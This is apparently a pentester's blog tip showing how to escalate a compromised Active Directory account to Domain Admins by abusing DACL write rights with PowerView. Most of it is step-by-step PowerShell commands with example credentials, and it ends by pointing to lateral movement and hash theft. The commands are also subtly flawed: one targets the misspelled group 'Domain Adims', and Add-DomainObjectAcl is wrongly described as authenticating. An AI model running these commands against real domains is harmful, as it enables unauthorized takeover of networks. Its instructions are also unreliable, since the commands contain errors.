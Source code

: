 ```yaml
---
author: Chris
title: "Quick Pointer: Abusing DACL Fumbles using PowerView"
date: 2024-12-12
tags:
  - powershell
---
```


{% imagesmall '/img/2024-12-11_10-09.png', '' %}

Ever come across an edge description in Boodhound on DACL abuse? They tend to look something like the above.

The Windows abuse instructions on the edge tend to offer two ways to proceed, either using _net group_ from net.exe or PowerView. I've always used the net.exe method, but they recommend PowerView because the opsec for net.exe is challenging.

{% imagesmall '/img/2024-12-12_08-59.png', '' %}

I was curious to play around with PowerView's _Add-DomainGroupMember_ to have another option in my toolbox and find out more about this improved opsec. Unfortunately, I've run into this Bloodhound description enough times to know that the steps for the PowerView method aren't quite as clearly laid out in the Bloodhound description as they could be. I don't think it's Bloodhound's fault, as the {% linkprimary "original instructions", "https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/" %} aren't effusive by any means.

## Adding an Existing User to Domain Admins by Modifying the DACL

To make it clearer, here are the steps to follow on a compromised domain-joined target. This will add an existing user (for which you have obtained a password), who already has DACL privileges over the Domain Admins group, to the Domain Admins group itself. For the sake of this example, lets say the user credentials we've compromised and want to add to Domain Admins is `paul.atreides:spicyworm` on a domain with a short name of _arrakis_.

First, it might pay to ensure you're authenticated to the Domain Controller as a member of the domain. Set up the creds as variables in Powershell and then use _Add-DomainObjectAcl_ to authenticate.

```
$SecPassword = ConvertTo-SecureString 'spicyworm' -AsPlainText -Force
```

```
$Cred = New-Object System.Management.Automation.PSCredential('arrakis\paul.atreides', $SecPassword)
```

```
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Domain Admins" -PrincipalIdentity paul.atreides -Rights WriteMembers
```

I'm no PowerShell expert, but you probably don't need to reenter the following two variables again. I'm doing so for the sake of effectiveness.

```
$SecPassword = ConvertTo-SecureString 'spicyworm' -AsPlainText -Force
```

```
$Cred = New-Object System.Management.Automation.PSCredential('arrakis\paul.atreides', $SecPassword)
```

Now add the existing domain user, paul.atreides, who has DACL privileges over Domain Admins group, to the Domain Admins group.

```
Add-DomainGroupMember -Identity 'Domain Adims' -Members 'paul.atreides' -Credential $Cred
```

Now you can verify whether the operation succeeded.

```
Get-DomainGroupMember -Identity 'Domain Admins'
```

## Moving Forward

If successful, from there your options should open up a bit to lateral movement, or obtaining hashes among other possibilities.
